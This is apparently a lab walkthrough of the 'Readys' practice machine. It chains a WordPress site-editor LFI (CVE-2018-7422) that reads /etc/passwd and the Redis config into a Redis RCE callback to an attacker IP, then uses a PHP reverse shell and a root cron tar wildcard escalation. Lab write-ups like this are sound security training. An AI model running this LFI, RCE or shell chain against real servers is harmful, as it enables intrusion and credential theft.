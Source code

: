 # Readys \[Inter]

## Report

'site-editor' plugin for WordPress is vulnerable to LFI, use it read config file of Redis service which exposes auth password for Redis, use Redis RCE exploit to get shell as user 'redis'. We find another user 'alice' exists but nothing noteworthy from linpeas and pspy. The WordPress website however is owned by 'alice' and trey to get a reverse shell via the website, the html directory is not writable by us.&#x20;

The LFI exploit however bypasses that requirement, write PHP reverse shell to a writable directory and execute it via exploit (/run/redis) to become user alice. Root is running a tar cronjob which is exploited via wildcards.

```bash
find / -type d -maxdepth 5 -writable 2>/dev/null
```

## Enumeration

192.168.112.166

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: HEAD OPTIONS
|_http-generator: WordPress 5.7.2
|_http-server-header: Apache/2.4.38 (Debian)
6379/tcp open  redis   Redis key-value store
```

#### 80 (WordPress)

```
wp-trackback.php        [Status: 200, Size: 135, Words: 11, Lines: 5, Duration: 61ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 65ms]
wp-signup.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 61ms]


wpscan --rua -e --url http://192.168.112.166/

[+] WordPress version 5.7.2 identified (Insecure, released on 2021-05-12).
 | Found By: Rss Generator (Passive Detection)

[+] XML-RPC seems to be enabled: http://192.168.112.166/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
[+] WordPress readme found: http://192.168.112.166/readme.html
 | Found By: Direct Access (Aggressive Detection)
[+] Upload directory has listing enabled: http://192.168.112.166/wp-content/uploads/
[+] The external WP-Cron seems to be enabled: http://192.168.112.166/wp-cron.php
[+] WordPress theme in use: twentytwentyone
 | Location: http://192.168.112.166/wp-content/themes/twentytwentyone/
   The version is out of date, the latest version is 2.6 (1.3)
[i] User(s) Identified:
[+] admin

xmlrpc.php seems to be for bruteforcing auth
wp-traceback shows a goofy error asking for ID
cannot register a new user
```

Initial scan did not identify the plugin

{% code overflow="wrap" %}
```
sudo wpscan --url http://192.168.112.166
[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://192.168.112.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

#### 6379 (Redis)

Need auth, then we can slap a revshell

```
redis-cli -h 192.168.112.166
CONFIG GET *
(error) NOAUTH Authentication required.
```

## Loot

### Attack Vectors

CVE-2018-7422: Site Editor Wordpress Plugin LFI

```
http://192.168.112.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

/etc/apache2/sites-enabled/000-default.conf
Document root : DocumentRoot /var/www/html
/etc/redis/redis.conf
#requirepass Ready4Redis?
SIKE NO # THAT"S THE PASS

Run redis-rce.py
python3 redis-rce.py -L 192.168.45.181 -r 192.168.112.166 -f module.so -a 'Ready4Redis?'
```

### PrivEsc

#### redis->alice

{% code title="var/www/html/wp-config.php" %}
```
/** MySQL database username */
define( 'DB_USER', 'karl' );
/** MySQL database password */
define( 'DB_PASSWORD', 'Wordpress1234' );

MariaDB [wordpress]> select user_login, user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0 |
+------------+------------------------------------+
No crack
```
{% endcode %}

Website is owned by alice, if we can get reverse shell from WordPress we become alice, also we have the LFI exploit from our plugin already but user 'redis' can't write to html directory.

SO find where we can write

```
find / -type d -maxdepth 5 -writable 2>/dev/null

/tmp
/proc/21716/task/21716/fd
/proc/21716/fd
/proc/21716/map_files
/run/redis
/opt/redis-files
/var/tmp
/var/lib/redis
/var/lib/redis/.local
/var/log/redis
```

Let fly, one will hit eventualy '/run/redis' and you become alice

#### alice->root

```
*/3 * * * * root /usr/local/bin/backup.sh
alice@readys:/var/www/html$ cat /usr/local/bin/backup.sh
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
```

### Creds

None

### Proof

First reading redis.conf from Wordpress was cold, fumbling the second Wordpress revshell was goofy tho
